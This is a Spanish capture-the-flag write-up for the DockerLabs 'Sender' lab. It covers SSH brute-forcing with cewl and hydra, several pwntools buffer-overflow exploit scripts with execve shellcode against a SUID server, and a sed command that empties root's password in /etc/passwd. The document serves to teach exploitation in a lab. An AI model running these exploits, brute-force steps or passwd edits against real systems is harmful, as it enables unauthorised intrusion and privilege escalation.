



Máquina **Sender** de [DockerLabs](https://dockerlabs.es).

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Difícil




# Reconocimiento

Comenzamos con un escaneo de `nmap` para poder descubrir los puerto abiertos de la máquina:

```css
nmap -p- -sSVC -Pn -n --min-rate 5000 --open -vvv -oN escaneo.txt 172.17.0.2
```

```ruby
# Nmap 7.95 scan initiated Mon Jan 13 18:59:01 2025 as: nmap -p- -sSVC -Pn -n --min-rate 5000 --open -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000012s latency).
Scanned at 2025-01-13 18:59:01 -03 for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 66:a8:c9:41:2e:c3:e1:07:64:ed:ee:ae:e6:51:62:47 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGmLPsfdewe5R2sKaVvwhEjUK5wkkuCAQhjDHSJp0/yQT4dOi+5l7o7mctTt5pK+GGqSDxWdHth/lgqpS18H/TE=
|   256 8e:0e:15:2f:87:76:09:78:ee:e1:0c:49:18:24:3b:a2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIG3RzTTOi9RLfD6gjzG9fQillWUm0k/6/X4Y/PadsZd2
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Sender - La Herramienta de Conexi\xC3\xB3n Definitiva
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jan 13 18:59:09 2025 -- 1 IP address (1 host up) scanned in 8.35 seconds
```

Solo vemos dos puertos abiertos:

•`Puerto 22: OpenSSH 9.6p1 Ubuntu`

•`Puerto 80: Apache httpd 2.4.58`

Sabiendo esto iremos directamente al puerto 80, ya que el 22 no nos es útil por ahora.


#### Puerto 80

Vemos que trata de una especie de software que permite enviar texto por la red, por ahora no nos sirve.

# Intrusión

También podemos ver unos usuarios:

```css
juan
marta
alex
```

los cuales los meteremos en un archivo ya que utilizaremos `cewl` para ver si en alguna palabra de la página se encuentra alguna contraseña. Para esto debemos ejecutar lo siguiente:

```css
cewl "http://172.17.0.2/" > wordlist.txt
```

luego usaremos `hydra` con la lista de posibles contraseñas:

```css
hydra -L users.txt -P wordlist.txt 172.17.0.2 ssh
```

y obtenemos las siguientes credenciales:


ahora nos conectaremos por ssh de la siguiente manera:

```css
ssh alex@172.17.0.2
```

# Escalada De Privilegios

### Alex

Si revisamos el home del usuario alex, veremos que se encuentra un binario llamado server el cual tiene le bit SUID activado, y si a este lo ejecutamos y enviamos muchos datos, veremos que sale el siguiente mensaje:

```css
alex@dockerlabs:~$ /home/alex/server 
Servidor escuchando en el puerto 7777...
Conexión aceptada de 172.17.0.1:49950
Datos recibidos: AAAAAAAAA<SNIP>AAAAAAAAAAAAAAAAAAAAAAA

Procesado: AAAAAA<SNIP>AAAAAAAAAAAAAAAAAAAAAAAAAAAA

Segmentation fault (core dumped)
alex@dockerlabs:~$ 
```

esto significa que el binario es vulnerable a buffer overflow.

#### Buffer Overflow

En esta parte, podríamos usar el binario sender para poder enviar el payload, pero para que sea mas entendible voy a crear un exploit con python el cual realiza lo mismo que usando sender. Primero crearemos la base:

```python
#!/usr/bin/env python3


from pwn import *


def exploit():


    host='127.0.0.1'
    port='7777'


    pattern = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"

    
    payload = pattern


    p = remote(host, port)
    p.sendline(payload)
    p.close()


if __name__ == '__main__':
    exploit()
```

este exploit, envía un pattern (`/opt/metasploit/tools/exploit/pattern_create.rb -l 100`) el cual nos permitirá saber el offset exacto del binario, nos ponemos con gdb (`gdb -q server`) y al ejecutar el exploit vemos lo siguiente:


```css
EIP  0x63413563 ('c5Ac')
```

pasamos "c5Ac" por `pattern_offset` de metasploit y nos dice lo siguiente:

```css
[*] Exact match at offset 76
```

por lo que ya sabemos el offset, vamos a actualizar el exploit:

```python
#!/usr/bin/env python3


from pwn import *


def exploit():


    host='127.0.0.1'
    port='7777'

    
    offset = 76

    buf = b"A"*offset
    eip = b"B"*4


    payload = buf + eip


    p = remote(host, port)
    p.sendline(payload)
    p.close()


if __name__ == '__main__':
    exploit()
```

este exploit nos permitirá tomar el control del EIP, ya que al ejecutarlo vemos lo siguiente en el gdb:

```css
EIP  0x42424242 ('BBBB')
```

Ahora, para saber que tenemos que hacer, vamos a revisar las protecciones del binario:

```css
❯ checksec --file=./server
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   51 Symbols	 No	0		4		./server
❯ 
```

como vemos no tiene ninguna, esto significa que podremos ejecutar un shellcode en la pila. Ya sabiendo esto, vamos a actualizar el exploit nuevamente pero agregando el shellcode:

```python
#!/usr/bin/env python3


from pwn import *


def exploit():


    host='127.0.0.1'
    port='7777'

    
    offset = 43

    nops = b"\x90"*offset
    eip = b"B"*4


    shellcode = b"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70"
    shellcode += b"\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61"
    shellcode += b"\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52"
    shellcode += b"\x51\x53\x89\xe1\xcd\x80"


    
    payload = nops + shellcode + eip


    p = remote(host, port)
    p.sendline(payload)
    p.close()


if __name__ == '__main__':
    exploit()

```

En este exploit, estamos modificando el offset para que sea 43 (es 76 menos el valor del [shellcode](https://shell-storm.org/shellcode/files/shellcode-606.html), que vale 33) y reemplazando las 'A' por nops para que nuestro shellcode sea interpretado correctamente, pero ahora nos hace falta saber a cual dirección apuntar con el EIP, para saberla vamos a ejecutar este exploit de ahora y luego en gdb ponemos `x/200wx $esp`:



Como vemos en la imagen, donde se encuentra el mouse es el EIP y lo que esta marcado los nops, viendo esto podemos hacer que el EIP apunte a la dirección donde comienzan nuestros nops, que seria "0xffffcdd0", solo que esta vez haremos el exploit para que funcione directamente en la máquina victima:

```python
#!/usr/bin/env python3


from pwn import *


def exploit():


    host='172.17.0.2'
    port='7777'

    
    offset = 43

    nops = b"\x90"*offset
    eip = p32(0xffffd310)


    shellcode = b"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70"
    shellcode += b"\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61"
    shellcode += b"\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52"
    shellcode += b"\x51\x53\x89\xe1\xcd\x80"


    
    payload = nops + shellcode + eip


    p = remote(host, port)
    p.sendline(payload)
    p.close()


if __name__ == '__main__':
    exploit()
```

ejecutamos el binario como alex, y al ejecutar el exploit recibiremos una bash con privilegios, solo que nos queda ejecutar lo siguiente para ser root al 100%:

```css
sed -i 's/root:x:/root::/g' /etc/passwd && su
```

### Root



Gracias por leer ;) (pd: srry si no se entendió algo, traté de explicar lo mejor que pude...)